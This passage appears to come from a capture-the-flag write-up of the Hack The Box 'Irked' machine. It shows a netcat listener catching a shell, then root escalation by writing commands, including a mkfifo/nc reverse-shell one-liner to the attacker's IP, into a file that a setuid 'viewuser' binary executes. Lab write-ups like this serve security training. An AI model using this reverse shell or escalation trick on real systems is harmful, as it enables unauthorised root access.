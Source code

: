 ```sh
kali@kali-[~/boxes/htb/irked]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 33392
bash: cannot set terminal process group (629): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ whoami
whoami
ircd
ircd@irked:~/Unreal3.2$ 
```


It looks like it worked, I'll try a reverse shell as well.

```sh
ircd@irked:~/Unreal3.2$ cd /tmp 
cd /tmp
ircd@irked:/tmp$ echo 'id' > listusers
echo 'id' > listusers
ircd@irked:/tmp$ chmod 744 listusers
chmod 744 listusers
ircd@irked:/tmp$ viewuser
viewuser
(unknown) :0           2021-12-19 10:39 (:0)
uid=0(root) gid=1001(ircd) groups=1001(ircd)
This application is being devleoped to set and test user permissions
It is still being actively developed
ircd@irked:/tmp$ 
```

The reverse shell worked as expected, and I went straight from the ircd user to root.

```sh
ircd@irked:/tmp$ viewuser
viewuser
(unknown) :0           2021-12-19 10:39 (:0)
uid=0(root) gid=1001(ircd) groups=1001(ircd)
This application is being devleoped to set and test user permissions
It is still being actively developed
ircd@irked:/tmp$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.34 443 >/tmp/f' > listusers
<mp/f|/bin/sh -i 2>&1|nc 10.10.14.34 443 >/tmp/f' > listusers                
ircd@irked:/tmp$ viewuser
viewuser
(unknown) :0           2021-12-19 10:39 (:0)
rm: cannot remove ‘/tmp/f’: No such file or directory
```

```sh
kali@kali-[~/boxes/htb/irked]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.117] 33393
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# 
```

Missing this cost me a few hours here of wondering what I was missing on priv esc. I only realized it when I set the permissions of "listusers" to read only and still got permission denied, before this I didn't think of writing a command to the file. 
